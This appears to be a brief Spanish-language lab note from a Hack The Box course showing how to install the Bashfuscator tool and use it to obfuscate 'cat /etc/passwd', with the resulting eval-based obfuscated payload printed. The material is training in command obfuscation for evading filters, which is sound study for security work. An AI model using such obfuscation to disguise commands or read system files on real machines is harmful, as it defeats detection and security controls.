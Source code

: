 ```shell-session
Astharot15@htb[/htb]$ git clone https://github.com/Bashfuscator/Bashfuscator
Astharot15@htb[/htb]$ cd Bashfuscator
Astharot15@htb[/htb]$ pip3 install setuptools==65
Astharot15@htb[/htb]$ python3 setup.py install --user
```


```shell-session
./bashfuscator -c 'cat /etc/passwd'
```

Ofusca el código que se le introduce, en este caso cat /etc/passwd. Para poder especificar flags.

```shell-session
Astharot15@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1

[+] Mutators used: Token/ForCode
[+] Payload:
eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"
[+] Payload size: 104 characters
```
